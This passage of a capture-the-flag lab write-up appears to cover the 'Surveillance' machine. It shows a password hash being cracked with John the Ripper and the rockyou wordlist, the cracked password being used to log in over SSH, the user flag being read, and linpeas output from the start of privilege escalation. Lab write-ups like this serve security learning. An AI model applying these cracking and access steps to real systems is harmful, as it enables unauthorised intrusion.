 Using JohnTheRipper, we can then crack the password hash as ```starcraft122490 ```

```
┌──(kali㉿kali)-[~/Desktop/surveillance]
└─$ john --format=raw-sha256 --wordlist=rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starcraft122490  (?)     
1g 0:00:00:00 DONE (2023-12-22 22:04) 3.448g/s 12316Kp/s 12316Kc/s 12316KC/s stefon23..srflo1
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

Using the password obtained, we can then gain access to the server as ```matthew```

```
┌──(kali㉿kali)-[~/Desktop/surveillance]
└─$ ssh matthew@10.10.11.245   
The authenticity of host '10.10.11.245 (10.10.11.245)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:23: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.245' (ED25519) to the list of known hosts.
matthew@10.10.11.245's password: 
...
matthew@surveillance:~$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
```

# Obtaining user flag

```
matthew@surveillance:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .profile  user.txt
matthew@surveillance:~$ cat user.txt
<redacted user flag>
matthew@surveillance:~$ 
```

# Privilege Escalation to zoneminder
Using linpeas, we can see that there is an open port 8080 on the localhost

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                              
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:13842           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
